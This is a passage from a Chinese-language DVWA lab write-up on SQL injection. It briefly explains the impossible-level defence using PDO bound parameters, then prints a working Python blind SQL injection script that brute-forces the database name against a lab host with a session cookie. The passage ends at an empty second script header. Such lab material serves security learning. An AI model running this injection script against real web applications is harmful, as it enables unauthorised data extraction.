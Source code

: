 ``````

做了个CSRF的防御，使用了PDO进行了分离数据和参数

先判断了一下id是否为数字如果不为数字直接就会跳过数据库查询，bindParam把id转换为int型,防止输入的数字为字符。进行查询有效限制了恶意构造语句

![1559647652359](assets/1559647652359.png)

#### SQL Injection(Bind)

跟如上一样

![1559647836899](assets/1559647836899.png)

## FxFF工具测试DVWA

### Python半自动化脚本

多用于盲注，这里只演示盲注

#### 注入数据库名

```python
"""
@Product:DVWA 
@Author:Aixic
@create：2019-06-04-19:33
"""
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie':'PHPSESSID=248dmjg65dksvfvf8kk0k7vqj0; security=low'}
payload="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
url="http://192.168.123.20/vulnerabilities/sqli_blind/?id=1"
end="&Submit=Submit#"
#1%27+and+mid%28database%28%29%2C1%2C1%29%3D%27d%27%23
if __name__ == '__main__':
    a=""
    for i in range(1,20):
        for j in payload:
            url1="%27+and+mid%28database%28%29%2C"+str(i)+"%2C1%29%3D%27"+str(j)+"%27%23"
            url_code_name = urllib.parse.quote(url1)
            #print(url1)
            try:
                rp = urllib.request.Request(url + url1 + end, headers=header)
                respon = urllib.request.urlopen(rp)
                html = respon.read().decode('utf-8')
                if "User ID exists in the database." in html:
                    a+=j
                    print(a)
                    break
            except:
                continue
```

#### 查询数据库名

```python
"""
@Product:DVWA 
@Author:Aixic
@create：2019-06-04-19:33
"""
``````